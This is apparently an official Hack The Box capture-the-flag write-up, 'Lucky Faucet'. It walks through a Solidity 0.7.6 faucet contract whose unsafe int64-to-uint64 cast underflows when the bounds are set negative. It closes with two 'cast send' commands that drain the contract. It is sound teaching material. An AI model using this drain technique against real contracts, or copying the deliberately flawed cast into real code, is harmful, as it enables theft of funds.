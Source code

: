 ![img](../../../../../assets/banner.png)

<img src='../../../../../assets/htb.png' style='margin-left: 20px; zoom: 80%;' align=left /> <font size='10'>Lucky Faucet</font>

28<sup>th</sup> 2022 / Document No. D22.102.16

Prepared By: perrythepwner

Challenge Author(s): perrythepwner

Difficulty: <font color=green>Easy</font>

Classification: Official

# Synopsis

- The challenge involves draining a generous faucet by exploiting an unsafe casting from `int64` to `uint64` in Solidity 0.7.6. This version lacks native integer overflow checks, leading to an integer underflow when negative bounds are set.

# Description

- The Fray announced the placement of a faucet along the path for adventurers who can overcome the initial challenges. It's designed to provide enough resources for all players, with the hope that someone won't monopolize it, leaving none for others.

# Skills Required

- Smart contract interaction.

# Skills Learned

- Unsafe casting for contracts before Solidity 0.8.0.
- Integer underflows/overflows for contracts before Solidity 0.8.0.

# Enumeration

## Analyzing the source code

We're provided with a single target address to interact with, which is the LuckyFaucet contract. This contract acts as a faucet, distributing a random quantity of ETH within a specified range.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.7.6;

contract LuckyFaucet {
    int64 public upperBound;
    int64 public lowerBound;

    constructor() payable {
        // start with 50M-100M wei Range until player changes it
        upperBound = 100_000_000;
        lowerBound =  50_000_000;
    }

    function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);
        // why? because if you don't need this much, pls lower the upper bound :)
        // we don't have infinite money glitch.
        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }

    function sendRandomETH() public returns (bool, uint64) {
        int256 randomInt = int256(blockhash(block.number - 1)); // "but it's not actually random 🤓"
        // we can safely cast to uint64 since we'll never 
        // have to worry about sending more than 2**64 - 1 wei 
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
        bool sent = msg.sender.send(amountToSend);
        return (sent, amountToSend);
    }
}
```

The range of ETH given out can be adjusted based on the preferences and needs of the player, by setting both the `lowerBound` and `upperBound`. 

```solidity
    function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
        require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
        require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
        require(_newLowerBound <= _newUpperBound);

        upperBound = _newUpperBound;
        lowerBound = _newLowerBound;
    }
```

However, it's important to note that the quantity of ETH distributed is determined by the previous block hash converted to a `uint256`, which isn't a reliable source of randomness. 

```solidity
        int256 randomInt = int256(blockhash(block.number - 1));
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
```

Nevertheless, since the contract limits the maximum output value to 100 million Wei (0.0000000001 ETH), and we require at least 10 ETH to solve the challenge, manipulating the randomness isn't necessary. Achieving 10 ETH with a maximum output of 100 million Wei per call would require an impractical number of function calls.

# Solution

## Finding the vulnerability

Searching for low-hanging fruit vulnerabilities in the contract that would allow us to receive more ETH than the contract allows, we initially come up empty-handed. However, upon closer inspection, we notice that not all integer types used in the contract are of the same size (256 bits). The comments in the code explain that 64 bits are sufficient to calculate the output value, as the maximum integer representable by `uint64` is approximately 18 ETH, and the faucet "will never worry about sending more."

```solidity
        // we can safely cast to uint64 since we'll never 
        // have to worry about sending more than 2**64 - 1 wei 
```

We also observe that not all integers are unsigned (`uint`); there are also signed integers (`int`). This means that they allow negative values to be represented. Furthermore, we notice a somewhat hidden operation where an `int64` is cast to `uint64`.
```solidity
        uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
```

What happens when a negative value represented by a signed integer is cast to an unsigned integer? It underflows. For example:

```txt
-1 in int64 == 2**64 - 1 in uint64
```

This means that if we set bounds to negative values like:

```solidity
upperBound = -1
lowerBound = -2
```

We will trigger an underflow when the contract tries to cast `-1` or `-2` to `uint64`. This will result in them being represented as `2**64 - 1` and `2**64 - 2` respectively, which is a little more than 18 ETH. This is enough to solve the challenge.

## Exploitation

### Getting the flag

After analyzing the contract, the exploitation is straightforward.

1) Set the bounds to negative values:
```sh
$ cast send --rpc-url $RPC_URL --private-key $PVK $TARGET "setBounds(int64,int64)" -- -2 -1
```

2) Drain the contract and win: 
```sh
$ cast send $TARGET "sendRandomETH()"  --rpc-url $RPC_URL --private-key $PVK
```
